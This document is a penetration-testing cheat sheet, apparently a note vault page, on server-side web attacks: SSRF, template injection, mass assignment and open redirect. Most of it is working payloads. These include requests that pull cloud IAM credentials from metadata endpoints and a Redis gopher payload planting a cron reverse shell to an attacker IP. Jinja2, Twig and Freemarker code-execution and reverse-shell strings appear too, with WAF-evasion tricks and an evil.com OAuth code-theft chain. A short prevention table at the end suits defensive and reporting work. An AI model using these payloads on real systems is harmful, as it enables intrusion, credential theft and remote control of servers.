


# Server-Side Attacks

#SSRF #SSTI #ServerSide #WebAppAttacks


## What is this?

Server-side vulnerabilities where attacker-controlled input is processed by the server in unintended ways — SSRF, SSTI, mass assignment, and open redirect. Pairs with [[File Inclusion]], [[Web Attacks]].


---

## Tools

| Tool | Purpose |
|---|---|
| [[Tools/Web/Burpsuite\|Burp Suite]] | Intercept and modify requests; Collaborator for OOB SSRF callbacks |
| [[Tools/File Transfer/cURL\|curl]] | Manual SSRF probing, redirect tracing (`-L`), header inspection |
| [interactsh-client](https://github.com/projectdiscovery/interactsh) | OOB interaction detection for blind SSRF — `go install github.com/projectdiscovery/interactsh/cmd/interactsh-client@latest` |
| [SSTImap](https://github.com/vladko312/SSTImap) | Automated SSTI detection and exploitation — maintained fork of tplmap |
| [tplmap](https://github.com/epinna/tplmap) | The original SSTI tool — **unmaintained since 2021, Python 2**; use SSTImap instead |
| [SSRFmap](https://github.com/swisskyrepo/SSRFmap) | Automated SSRF exploitation with internal service probing |
| [Gopherus](https://github.com/tarunkant/Gopherus) | Generates `gopher://` payloads for Redis, MySQL, FastCGI, SMTP — **Python 2, unmaintained** |

> [!warning]
> Both `tplmap` and `Gopherus` are Python 2 and long unmaintained. On a modern Kali there's no `python2` by default — either run them in a container, or generate gopher payloads by hand (the Redis/FastCGI formats are simple enough to build from the raw protocol).

---

## SSRF (Server-Side Request Forgery)

Server makes HTTP requests to attacker-controlled destinations. Used to reach internal services, cloud metadata, or chain to RCE.

The value is **positional** — the server is inside the trust boundary you aren't:



### Identify SSRF

```bash
# Any parameter that takes a URL or hostname is a candidate:
# ?url=, ?path=, ?dest=, ?redirect=, ?uri=, ?target=, ?proxy=, ?src=, ?fetch=, ?load=

# Baseline — point at your listener
# python3 -m http.server 8080  (or use Burp Collaborator / interactsh)
curl -s "http://<target>/fetch?url=http://<attacker-ip>:8080/test"

# interactsh-client one-liner
interactsh-client &
curl -s "http://<target>/fetch?url=https://<generated>.oast.fun"

# Common locations to find SSRF:
# - Webhooks (URL field)
# - PDF generators (inject )
# - Image upload by URL
# - "Preview URL" / "Check link" features
# - XML/SOAP with external URLs
# - Redirect parameters
```

### Basic Internal Access

```bash
# Access internal services not exposed externally
curl -s "http://<target>/fetch?url=http://127.0.0.1:80/"
curl -s "http://<target>/fetch?url=http://127.0.0.1:8080/"
curl -s "http://<target>/fetch?url=http://127.0.0.1:22/"
curl -s "http://<target>/fetch?url=http://127.0.0.1:3306/"
curl -s "http://<target>/fetch?url=http://localhost/admin"
curl -s "http://<target>/fetch?url=http://192.168.1.1/"   # internal gateway

# Internal port scan via SSRF + response size/time differences
for port in 22 25 80 443 3306 5432 6379 8080 8443 27017; do
  size=$(curl -so /dev/null -w "%{size_download}" --max-time 3 "http://<target>/fetch?url=http://127.0.0.1:$port/")
  echo "Port $port: $size bytes"
done

# ffuf for port scan
ffuf -w <(seq 1 65535) -u "http://<target>/fetch?url=http://127.0.0.1:FUZZ/" -fs 0 -mc all -t 50
```

### Cloud Metadata

```bash
# AWS IMDSv1 (no auth required)
curl -s "http://<target>/fetch?url=http://169.254.169.254/latest/meta-data/"
curl -s "http://<target>/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
curl -s "http://<target>/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/<role-name>"
curl -s "http://<target>/fetch?url=http://169.254.169.254/latest/user-data"
# Returns: AccessKeyId, SecretAccessKey, Token — use with aws cli

# AWS IMDSv2 — usually NOT reachable via SSRF, by design.
# The token endpoint requires PUT + a custom header. A typical SSRF sink issues a
# plain GET with no attacker-controlled headers, so it simply cannot mint a token.
#
# NOTE: -X PUT below sets the method on YOUR request to <target>, NOT on the
# server-side request to 169.254.169.254. It only helps if the sink proxies your
# method and headers through — rare. Confirm before assuming it works.
curl -s -X PUT "http://<target>/fetch?url=http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"
#
# Realistic paths to IMDSv2:
#   - gopher:// — craft the raw PUT + header bytes yourself (needs a gopher-capable sink)
#   - A full HTTP-proxy SSRF that forwards method and headers verbatim
#   - IMDSv1 still enabled (very common on older instances) — always try v1 first

# Azure IMDS
curl -s "http://<target>/fetch?url=http://169.254.169.254/metadata/instance?api-version=2021-02-01" -H "Metadata: true"
curl -s "http://<target>/fetch?url=http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"

# GCP metadata
curl -s "http://<target>/fetch?url=http://metadata.google.internal/computeMetadata/v1/" -H "Metadata-Flavor: Google"
curl -s "http://<target>/fetch?url=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token"
# Note: headers may not be passable via SSRF — try without them first
```

### Filter Bypass Techniques

```bash
# Blacklist bypass — alternative representations of 127.0.0.1
curl -s "http://<target>/fetch?url=http://2130706433/"      # decimal
curl -s "http://<target>/fetch?url=http://0177.0.0.1/"      # octal
curl -s "http://<target>/fetch?url=http://0x7f000001/"      # hex
curl -s "http://<target>/fetch?url=http://127.1/"            # short form
curl -s "http://<target>/fetch?url=http://[::1]/"            # IPv6 loopback
curl -s "http://<target>/fetch?url=http://[::]/"             # IPv6 any

# Attacker-controlled DNS resolving to a blocked address — beats a STRING blacklist
# (this is NOT DNS rebinding; the name resolves to 127.0.0.1 every time)
curl -s "http://<target>/fetch?url=http://127.0.0.1.nip.io/"

# TRUE DNS rebinding — beats a resolve-then-check filter (TOCTOU)
# Your DNS server answers with a public IP on the 1st lookup (passes validation),
# then 127.0.0.1 on the 2nd lookup (the request the server actually makes).
# Needs a short TTL and a target that resolves twice — use rbndr.us or a custom zone.
curl -s "http://<target>/fetch?url=http://7f000001.c0a80001.rbndr.us/"

# URL confusion
curl -s "http://<target>/fetch?url=http://attacker.com@127.0.0.1/"
curl -s "http://<target>/fetch?url=http://127.0.0.1#attacker.com"

# Protocol handlers
curl -s "http://<target>/fetch?url=file:///etc/passwd"
curl -s "http://<target>/fetch?url=dict://127.0.0.1:11211/stats"   # Memcached
curl -s "http://<target>/fetch?url=ftp://127.0.0.1/etc/passwd"

# Redirect chain bypass — host a redirect on attacker server
# attacker.com/r → 302 → http://127.0.0.1/admin
python3 -c "
import http.server
class H(http.server.BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(302)
        self.send_header('Location','http://127.0.0.1/admin')
        self.end_headers()
    def log_message(self,*a): pass
http.server.HTTPServer(('0.0.0.0',8080),H).serve_forever()
"
curl -s "http://<target>/fetch?url=http://<attacker-ip>:8080/r"
```

### Gopher Protocol (SSRF → RCE)

Gopher lets you send raw TCP data — reach Redis, Memcached, SMTP, MySQL:

```bash
# Gopher to Redis — write cron job for shell
# Redis commands (URL-encoded gopher payload):
# FLUSHALL
# SET x "\n\n*/1 * * * * bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1\n\n"
# CONFIG SET dir /var/spool/cron/
# CONFIG SET dbfilename root
# BGSAVE

# URL: gopher://127.0.0.1:6379/_<URL-encoded redis commands>
# Use Gopherus to generate payloads (clone + install, it's a py2 script):
# git clone https://github.com/tarunkant/Gopherus && ./Gopherus/install.sh
gopherus --exploit redis
# Enter: phpshell / crontab / etc.
# Copy output URL into SSRF parameter

# Gopher to FastCGI (if PHP-FPM on 9000)
gopherus --exploit fastcgi
# Enter /var/www/html/index.php and your command

# Gopher to MySQL (no-auth or default creds)
gopherus --exploit mysql
```

### Blind SSRF

```bash
# No response — use out-of-band (OOB) detection
# interactsh setup:
interactsh-client -server interactsh.com -n 1
# Get: <random>.oast.fun

curl -s "http://<target>/fetch?url=https://<random>.oast.fun/test"
# If interactsh shows DNS/HTTP interaction → SSRF confirmed blind

# Burp Collaborator alternative:
# Use Burp Pro → Collaborator client → generate URL → insert in parameter
# Check for DNS/HTTP interactions in Collaborator tab

# Timing-based port detection (closed = fast, open = slow/different)
time curl -s --max-time 5 "http://<target>/fetch?url=http://127.0.0.1:22/"
time curl -s --max-time 5 "http://<target>/fetch?url=http://127.0.0.1:9999/"
```

---

## SSTI (Server-Side Template Injection)

User input is concatenated into a template string and evaluated by the template engine. Detect engine, then escalate to RCE.

### Detection

```bash
# Polyglot probe — triggers errors across all major engines at once
# Send this as a single value; an error or garbled output confirms SSTI exists
curl -s "http://<target>/page?name=%24%7B%7B%3C%25%5B%25%27%22%7D%7D%25%5C."
# Decoded: ${{<%[%'"}}%\.

# Inject math expressions — each engine has unique syntax
# If any of these return evaluated results, SSTI exists:
curl -s "http://<target>/page?name={{7*7}}"      # Jinja2/Twig → 49
curl -s "http://<target>/page?name=${7*7}"        # Freemarker/Mako → 49
curl -s "http://<target>/page?name=<%= 7*7 %>"   # ERB/EJS → 49
curl -s "http://<target>/page?name=#{7*7}"        # Ruby/Slim interpolation → 49
curl -s "http://<target>/page?name={{7*'7'}}"     # Jinja2 → 7777777, Twig → 49

# Test everywhere — not just URL params
# Headers, cookies, form fields, JSON values, email name/subject fields
```

**Engine fingerprint — work the tree:**



### Jinja2 (Python — Flask/Django)

```bash
# Dump config (Flask secret key, DB creds)
{{config}}
{{config.items()}}

# Read files
{{''.__class__.__mro__[1].__subclasses__()}}
# Find index of <class 'subprocess.Popen'> — usually around 258-400
# Then:
{{''.__class__.__mro__[1].__subclasses__()[258](['id'],stdout=-1).communicate()[0].decode()}}

# Simpler RCE via cycler/joiner globals:
{{cycler.__init__.__globals__.os.popen('id').read()}}
{{joiner.__init__.__globals__.os.popen('id').read()}}
{{namespace.__init__.__globals__.os.popen('id').read()}}

# Reverse shell
{{cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1"').read()}}

# URL-encode for GET parameters:
# %7B%7Bcycler.__init__.__globals__.os.popen(%27id%27).read()%7D%7D
curl -s --data-urlencode "name={{cycler.__init__.__globals__.os.popen('id').read()}}" "http://<target>/greet"
```

### Jinja2 — Filter Evasion (when `__` is blocked)

```python
# If the WAF/filter blocks __ (double underscore), use attr() filter
# attr() accesses attributes by string name — avoids writing __ literally

# Build the string "__class__" without typing it directly
# Using request object (always available in Flask):
{{request|attr('__class__')}}
{{request|attr('__class__')|attr('__mro__')}}

# Full RCE chain using attr() to avoid __ in argument positions:
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
# \x5f = _ in hex — bypasses string-based filters

# Alternative — use config object globals:
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}

# If periods also filtered, use bracket notation:
{{config['__class__']['__init__']['__globals__']['os']['popen']('id')['read']()}}
```

### Twig (PHP — Symfony)

```bash
# Version check
{{_self.env.getExtension('Twig_Extension_Debug')}}

# RCE — Twig 1.x ONLY (_self.env was removed in Twig 2/3, these fail on modern Symfony)
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id")}}

# Twig 2/3 — use built-in filters as the exec sink instead
{{['id']|map('system')|join}}
{{['id']|filter('system')}}

# Reverse shell (Twig 1.x)
{{_self.env.registerUndefinedFilterCallback("exec")}}
{{_self.env.getFilter("bash -c 'bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1'")}}
```

### Freemarker (Java)

```bash
# Basic RCE
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}

# Full template
<#assign cmd="id"><#assign ex="freemarker.template.utility.Execute"?new()>${ex(cmd)}

# Reverse shell
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("bash -c {echo,<b64-revshell>}|{base64,-d}|bash")}
```

### Velocity (Java — Confluence/JIRA)

```bash
# RCE via ClassTool
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("id"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```

### SSTImap (Automation)

```bash
# Install
git clone https://github.com/vladko312/SSTImap
cd SSTImap && pip3 install -r requirements.txt

# Auto-detect engine and test — * marks the injection point
python3 sstimap.py -u "http://<target>/page?name=*"

# Interactive OS shell
python3 sstimap.py -u "http://<target>/page?name=*" --os-shell

# Run a single command
python3 sstimap.py -u "http://<target>/page?name=*" --os-cmd "id"

# POST parameter
python3 sstimap.py -u "http://<target>/greet" -d "name=*"

# Authenticated — -c is the COOKIE flag (inherited from tplmap)
python3 sstimap.py -u "http://<target>/page?name=*" --os-cmd "id" -c "session=<value>"
```

| Flag | Meaning |
|---|---|
| `-u` / `-d` | Target URL / POST data; `*` marks the injection point |
| `--os-cmd` | Execute one OS command |
| `--os-shell` | Interactive shell |
| `-c` | **Cookies** — *not* command execution |
| `-e` | Force a specific template engine, skipping detection |

> [!warning]
> `-c` is **cookies**, not command. Passing `-c "id"` doesn't run anything — it sends a malformed cookie and silently does nothing useful. Command execution is `--os-cmd`.

---

## Mass Assignment

Frameworks that auto-bind request parameters to object properties may allow setting fields that weren't intended to be user-controlled (role, admin flag, price, balance).

### Identify

```bash
# Register/update requests — look for what fields the app accepts
# If API returns more fields than the form shows → test setting them

# Example: register endpoint takes {"username":"x","password":"y"}
# API returns: {"id":5,"username":"x","isAdmin":false,"role":"user"}
# Try submitting isAdmin/role in the registration request

# Test fields from API responses that the form doesn't expose
curl -s -X POST "http://<target>/api/register" -H "Content-Type: application/json" -d '{"username":"attacker","password":"P@ssw0rd","role":"admin"}'

curl -s -X POST "http://<target>/api/register" -H "Content-Type: application/json" -d '{"username":"attacker","password":"P@ssw0rd","isAdmin":true}'

# Profile update — escalate role
curl -s -X PUT "http://<target>/api/profile" -H "Authorization: Bearer <token>" -H "Content-Type: application/json" -d '{"username":"user","email":"x@x.com","role":"admin","balance":999999}'

# Check JSON vs form body — frameworks may handle differently
curl -s -X POST "http://<target>/checkout" -H "Content-Type: application/x-www-form-urlencoded" -d "product_id=1&qty=1&price=0.01"
```

### Framework-Specific Notes

```bash
# Ruby on Rails — mass assignment happens when params AREN'T filtered
# Strong params STRIP non-permitted keys, so adding user[admin]=true to a proper
# permit(:username, :email) does NOTHING. It's exploitable only when the controller
# skips strong params, uses params.require(:user).permit! (permit everything), or a
# legacy attr_accessible/attr_protected misconfig — THEN user[admin]=true binds.

# Laravel/PHP — $fillable vs $guarded
# If $guarded = [] → all fields bindable

# Django — ModelForm without exclude → all fields
# Spring — @ModelAttribute binds all matching fields

# Node/Express — req.body spread into DB update
# PUT /api/user → {...req.body} → includes any field in body

# Enumerate object properties from GET response, then add them to POST/PUT
curl -s "http://<target>/api/profile/5" | python3 -m json.tool
# Add every returned key to PUT body with modified values
```

---

## Open Redirect

App redirects to a user-controlled URL. Used to phish, bypass URL validation, steal OAuth tokens, or chain with SSRF.

### Identify

```bash
# Parameters that commonly hold redirect destinations:
# ?redirect=, ?url=, ?next=, ?return=, ?returnTo=, ?goto=, ?redir=, ?destination=

# Test with external URL
curl -sv "http://<target>/login?redirect=https://evil.com" 2>&1 | grep -i location
# Look for: Location: https://evil.com

# Check response body for redirects too (JS-based)
curl -s "http://<target>/logout?next=https://evil.com" | grep -i "window.location\|href="

# After login — check where the redirect parameter goes
# OAuth flows often use redirect_uri — test pointing to attacker.com
```

### Filter Bypass

```bash
# Whitelist bypass — trick validation to allow external URL
curl -sv "http://<target>/redirect?url=https://evil.com%2F@target.com" 2>&1 | grep location
curl -sv "http://<target>/redirect?url=https://target.com.evil.com" 2>&1 | grep location
curl -sv "http://<target>/redirect?url=//evil.com" 2>&1 | grep location
curl -sv "http://<target>/redirect?url=\/\/evil.com" 2>&1 | grep location
curl -sv "http://<target>/redirect?url=https:evil.com" 2>&1 | grep location
curl -sv "http://<target>/redirect?url=%2F%2Fevil.com" 2>&1 | grep location
curl -sv "http://<target>/redirect?url=https://evil%E3%80%82com" 2>&1 | grep location  # Unicode dot

# Starts-with check bypass
curl -sv "http://<target>/redirect?url=https://target.com.evil.com" 2>&1 | grep location
curl -sv "http://<target>/redirect?url=https://target.com@evil.com" 2>&1 | grep location

# Substring check bypass
curl -sv "http://<target>/redirect?url=https://evil.com?target.com" 2>&1 | grep location
curl -sv "http://<target>/redirect?url=https://evil.com#target.com" 2>&1 | grep location

# Double URL encoding
curl -sv "http://<target>/redirect?url=%2568ttps://evil.com" 2>&1 | grep location

# JavaScript redirect (href/location not in redirect header)
curl -s "http://<target>/redirect?url=javascript:alert(1)"
```

### Exploitation Chains

```bash
# 1. Open redirect → phishing
# Send victim: https://target.com/redirect?url=https://evil.com/fake-login
# Victim sees legitimate domain in URL bar before redirect

# 2. Open redirect → OAuth code theft
# The redirect_uri goes on the AUTHORIZATION request, not the callback.
# Providers validate redirect_uri against a registered allowlist — an open redirect
# ON an allowlisted host satisfies that check, then bounces the code onward.
#
#   https://idp.com/authorize
#     ?client_id=<id>
#     &response_type=code
#     &redirect_uri=https://target.com/redirect%3Furl%3Dhttps://evil.com
#
# Victim authenticates -> IdP 302s to target.com/redirect?url=... with ?code=<code>
# -> the open redirect forwards to evil.com, carrying the code in the query string
# (or in the Referer, if the hop is client-side).
# Then exchange it: POST /token with code + client_id. See [[OAuth-OIDC-SAML]].

# 3. Open redirect → SSRF
# Some apps validate redirect URL then make server-side request to it
# Use open redirect to bypass SSRF filter
# https://<target>/fetch?url=https://<target>/redirect?url=http://169.254.169.254/

# 4. Open redirect + CSRF — force victim to authenticated action
# Embed in phish email: link to open redirect → page that triggers CSRF
```

---

## Prevention (Know the Defenses)

What you're up against per class, and where each control still leaks — useful for the remediation section of a report.

| Class | Control | Residual gap |
|---|---|---|
| **SSRF** | Allowlist destination hosts | The only control that really works. A *blocklist* loses to decimal/octal/IPv6 encodings, `nip.io`, and redirects |
| **SSRF** | Validate the URL, then fetch | Classic TOCTOU — DNS rebinding re-resolves between check and fetch. Resolve **once** and connect to that IP |
| **SSRF** | Block link-local `169.254.0.0/16` | Misses internal RFC1918 ranges and `file://`/`gopher://` sinks |
| **SSRF** | Disable unused URL schemes | Leaving `gopher://` enabled is what turns SSRF into RCE |
| **SSRF** | IMDSv2 (session tokens) | Only helps if IMDSv1 is actually *disabled* — it stays enabled by default on older instances. Also set the hop limit to 1 |
| **SSTI** | Never concatenate user input into a template | The actual fix. Pass it as a **context variable**, not template source |
| **SSTI** | Sandboxed engine | Sandboxes get escaped routinely — a delay, not a boundary |
| **SSTI** | Logic-less templates (Mustache) | Removes the RCE primitive entirely, at a feature cost |
| **Mass assignment** | Explicit allowlist binding (strong params, `$fillable`, DTOs) | A `permit!` / `$guarded = []` / `{...req.body}` escape hatch reopens it |
| **Mass assignment** | Server-side authorization on every field | Binding `role` is only a finding if nothing re-checks who may set it |
| **Open redirect** | Relative paths only, or an allowlist | Substring/prefix checks lose to `target.com.evil.com`, `@`, `//`, and Unicode dots |
| **Open redirect** | Exact-match `redirect_uri` at the IdP | An open redirect on an allowlisted host defeats the allowlist |

> [!warning]
> SSRF blocklists are the single most common failed remediation. If a report says "we block 169.254.169.254", retest with `2130706433`, `[::1]`, `127.0.0.1.nip.io`, and an attacker-hosted 302 — at least one usually still lands.

---

## Quick Reference

```bash
# SSRF — quick internal probe
curl -s "http://<target>/param?url=http://127.0.0.1:80/"
curl -s "http://<target>/param?url=http://169.254.169.254/latest/meta-data/"

# SSTI — quick detection
for payload in '{{7*7}}' '${7*7}' '<%= 7*7 %>' '#{7*7}' '*{7*7}'; do
  encoded=$(python3 -c "import urllib.parse; print(urllib.parse.quote('''$payload'''))")
  resp=$(curl -s "http://<target>/page?name=$encoded")
  echo "$payload → $(echo $resp | grep -oP '\d{2}')"
done

# Mass assignment — inject extra fields
# Register with role:
curl -s -X POST "http://<target>/api/register" -H "Content-Type: application/json" -d '{"username":"x","password":"y","role":"admin","isAdmin":true}'

# Open redirect check
curl -sv "http://<target>/redirect?url=https://example.com" 2>&1 | grep -i "^< location"
```

---

*Created: 2026-03-04*
*Updated: 2026-08-18*
*Model: claude-opus-5*
